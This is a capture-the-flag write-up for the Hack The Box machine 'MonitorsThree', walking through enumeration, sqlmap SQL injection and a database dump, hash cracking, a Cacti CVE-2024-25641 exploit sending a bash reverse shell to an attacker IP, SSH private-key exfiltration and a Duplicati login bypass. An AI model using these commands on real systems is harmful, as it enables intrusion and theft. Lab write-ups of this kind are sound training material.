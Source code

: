 B3rt1ng
[HTB](https://app.hackthebox.com/profile/361363) | [Github](https://github.com/b3rt1ng)

<h1 style="text-align: center;">MonitorsThree Writeup</h1> 

![badge](assets/badge.png)


## Reconnaissance
To begin with, we will perform a classic Nmap port scan to get in touch with the present services running on our target.

```bash
nmap -sC -sV 10.10.11.30 -oN scan.txt -Pn
```

![nmap scan](assets/scan.png)

We'll keep in mind that we have an ssh running on our machine. 
I spent some time to find some known vulnerabilities on port 5555 and 8084 but this isn't giving us a lot of exploitation opportunity.
Port 80 in the other hand is interesting. To access the website we need to add the DNS to our known hosts.

```bash
sudo nano /etc/hosts
```
![dns add](assets/DNS.png)

Once on the website we can see a login page and a forgotten password page. Before trying anything we will try to discover more places !

We will use dirsearch to find more places and we do find some js, fonts, images and admin page though this one is not accessible.

```bash
dirsearch -u http://monitorsthree.htb/
```
![dirsearch](assets/dirsearch.png)
Lastly, we will try to find more places on the webserver by crawling for subdns using this time ffuf.

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://monitorsthree.htb/ -H "Host: FUZZ.monitorsthree.htb" -fs 13560

#fs 13560 argument is meant to pass all the result of size 13560, those appeared to be false positives.
```

![ffuf](assets/ffuf.png)
We find a sub dns called cacti, after some research it seems like this app is meant to monitor systems and get graphical insights about them.
We add the subdns "cacti.monitorsthree.htb" to our known hosts and happily go towards this domain.
Interesting, we have an admin pannel and luckily enough, we also have the version of the software running:
![cacti](assets/cacti.png)

## Exploiting

After a bit of research, it seems like this version is vulnerable and it's vulnerability is known under "CVE-2024-25641". Some POC are available on github allowing us to make Remote Code Executions and therefore get a reverse shell on the machine.
At that point I need to find a user and a password for the RCE to work.
The forgot password page seems to be vulnerable to SQLI. 
![forgot](assets/forgot.png)
I will use burp to capture a request to that page in hope to gather data from the sql database.
here's the request I will use:
![request](assets/request.png)

Now let's play with SQLMap

```bash
sqlmap -r request.txt --dbs --batch
```
![sqlmap](assets/sqlmap.png)

Then let's try to dump this database.

```bash
sqlmap -r request.txt --dbms=mysql --technique=B -D monitorsthree_db --dump-all --random-agent -level 5
```
That way we get four hashed password that we will try to crack with hashcat (1/4 hash are actually crackable), and some credetnials (an admin credential mostly)

```bash
hashcat -m 0 -a 0 "31a181c8372e3afc59dab863430610e8" /usr/share/wordlists/rockyou.txt --show
```
And we get a password.

Let's try that password with the username "admin"

And we are now logged in !
![panel](assets/panel.png)

Now that we have a loggin and password let's try our CVE. I've been using metasploit's implementation of this CVE (under exploit/multi/http/cacti_package_import_rce) but found a more maleable implementation by [@StopThatTalace](https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26).

So let's prepare a listener:
```bash
nc -lnvp 4242
```
And send a reverse shell:
```bash
python3 CVE-2024-25641.py http://cacti.monitorsthree.htb/cacti/ --user admin --pass greencacti2001 -x "bash -c 'bash -i >& /dev/tcp/10.10.16.27/4242 0>&1'"
```
And bingo, we are in !
![reverse](assets/reverse.png)
Since we are only under the user www-data, let's try to move to a normal user. Let's list the homes directories:
![home](assets/home.png)
When we try to ssh to marcus, we need a public key:
![bone](assets/bone.png)
To get that private key, we will swithc from our reverse shell to marcus using the password we gathered and then spawn a web server from marcus's home directory to get his id_rsa file.
now from marcu's account:
```bash
cd /home/marcus/.ssh
python3 -m http.server
```
From our machine:
```bash
wget http://10.10.11.30:8000/id_rsa
```
![wget](assets/wget.png)
![ssh](assets/ssh.png)
We now have the user flag !
## privilege escalation
Now let's try to escalate our privileges to root, we will need to investigate our machine.
Sudo -l isn't giving any hints, let's use linpeas to get some useful information.
![linpeas](assets/linpeas.png)
We already know  80,22 and 53 (tcp/udp DNS server) but now we want to investigate the other ports. Let's try to see if any web-app is running on one of those.
We will make ssh tunneling and try to access it on our browser.
![tunel](assets/tunel.png)
And on our browser we have an app called "duplicati"
![duplicati](assets/duplicati.png)
After some research we find [this article](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee) that explain how to bypass this duplicati login page.

To summarize it a little bit, the bypass relies on two main information:
- We already have access to the machine with marcus so we can access the database settings.
- using Burp Suite we can understand how the authentication is working.
  
I will not spend too much time into explaining how I gathered those information as it would be a copy/paste of the article so I will fast forward to the bypass execution.

After converting the database password.
![password](assets/password.png)
Gathered the session nonce through burp
![nonce](assets/nonce.png)
Generated the password.
![pass](assets/pass.png)
And replaces the password field in but by our generated password, we have access to the app !
![app](assets/app.png)
The advantage of using this app is that it runs with the roots privilege, now we can manipulate the apps to access files with root privilege and hopefully get the root flag (/root/root.txt on HTB machines).

After reading the [duplicati doc](https://docs.duplicati.com/en/latest/), we can see that it's meant to save files in order to do backups. So let's try to get that root flag.

Let's create a backup file of our root flag to marcus's home.
Our destination will be /source/home/marcus
![source](assets/marcus_source.png)
And our source will be:
![source](assets/source.png)

Now let's run the backup:
![backup](assets/backup.png)
Once the backup it's done, we will restore it.
![restore](assets/restore.png)
And now let's have a look at our home folder:
![root](assets/root.png)
Wonderful, we have the root flag.
